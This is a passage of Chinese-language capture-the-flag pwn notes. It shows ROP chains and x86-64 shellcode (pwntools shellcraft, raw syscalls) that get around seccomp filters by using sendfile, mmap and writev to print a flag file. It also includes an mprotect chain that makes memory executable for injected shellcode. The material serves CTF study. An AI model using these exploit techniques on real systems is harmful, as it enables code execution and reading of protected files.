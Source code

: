 > mov r8, 3
> mov r9, 0
> mov rax, 9
> syscall
> """   # read
> ```

#### sendfile

**sendfile可以直接代替write与read**

> **rop**
>
> ```python
> rop += flat(pop_rdi, 1, pop_rsi, 3, pop_rdx_r12, 0, 0, pop_rcx, 0x100, libc.sym["sendfile"])
> ```

> **shellcode**
>
> ```python
> shellcode += shellcraft.amd64.linux.sendfile(1, "rax", 0, 0x200)
> 
> 
> shellcode += """
> mov rdi, 1
> mov rsi, rax
> mov rdx, 0
> mov r10, 0x100
> mov rax, 0x28
> syscall
> """ 
> ```

### write替代

#### writev

> **rop**
>
> ```python
> bss_addr = 0x000000000404020 # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```

> **shellcode**
>
> ```python
> # 注意flag输出不在开头
> shellcode += '''
> push 0x200
> push 0x200
> mov [rsp],rsp
> '''
> shellcode += shellcraft.amd64.linux.writev(1, 'rsp', 0x1)
> 
> 
> # 注意flag输出不在开头
> shellcode += """
> push 0x200
> push 0x200